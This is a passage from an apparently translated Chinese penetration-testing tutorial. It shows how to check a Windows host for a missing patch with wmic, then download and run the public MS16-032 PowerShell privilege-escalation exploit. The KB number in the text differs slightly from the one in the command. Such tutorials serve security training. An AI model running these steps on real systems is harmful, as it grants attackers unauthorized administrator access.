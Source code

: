 1.  我们看到 KB 号是`313991`。让我们检查一下它是否安装在系统上。在命令提示符中执行以下查询：

```
      wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr       "KB3139914"

```

输出将如下截图所示：

![How to do it...](img/image_09_005.jpg)

1.  太好了。没有为其应用补丁；现在我们将从[`www.exploit-db.com/exploits/39719/`](https://www.exploit-db.com/exploits/39719/)下载漏洞利用。下载完成后，将其重命名为`Invoke-MS16-032.ps1`。

1.  现在打开 PowerShell 并输入以下命令：

```
      . ./Invoke-MS16-032.ps1
      Invoke-MS16-032

```

输出将如下截图所示：

![How to do it...](img/image_09_006.jpg)
